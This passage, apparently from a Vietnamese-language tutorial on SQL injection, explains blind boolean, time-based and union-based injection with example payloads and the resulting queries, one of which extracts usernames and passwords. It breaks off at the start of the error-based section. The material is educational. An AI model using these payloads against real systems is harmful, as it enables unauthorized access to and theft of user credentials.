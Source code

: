Truy vấn gốc:

```sql
SELECT * FROM users WHERE user_id = '[id]';
```

Payload: `1' AND SUBSTRING((SELECT database()), 1, 1) = 'a' --`

Kết quả: 

```sql
SELECT * FROM users WHERE user_id = '1' AND SUBSTRING((SELECT database()), 1, 1) = 'a' --
```

Nếu phản hồi "Đúng", nghĩa là tên database bắt đầu bằng chữ 'a'. Kẻ tấn công có thể thử từng ký tự để xác định tên cơ sở dữ liệu.

### b. Time-based Blind SQL Injection

**Tình huống:** Trang không hiển thị phản hồi, nhưng có thể đo thời gian phản hồi.

**Payload:** `1' AND IF(1=1, SLEEP(5), 0) --` 

Kết quả: 

```sql
SELECT * FROM users WHERE user_id = '1' AND IF(1=1, SLEEP(5), 0) --
```

Nếu trang mất 5 giây để phản hồi, kẻ tấn công có thể suy luận dữ liệu thông qua thời gian phản hồi.

## 3. Union-based SQL Injection

**Tình huống:** Trang hiển thị thông tin sản phẩm dựa trên `product_id`.

Truy vấn gốc:

```sql
SELECT name, price FROM products WHERE product_id = '[id]';
```

**Payload:** `1' UNION SELECT username, password FROM users --`

Kết quả: 

```sql
SELECT name, price FROM products WHERE product_id = '1' UNION SELECT username, password FROM users --;
```

Nếu số lượng cột của bảng `products` khớp với bảng `users`, thông tin nhạy cảm sẽ bị lộ trên giao diện người dùng.

## 4. Error-based SQL Injection

**Tình huống:** Trang web trả về thông báo lỗi cơ sở dữ liệu.

Truy vấn gốc: 

```sql
SELECT * FROM users WHERE user_id = '[id]';
```
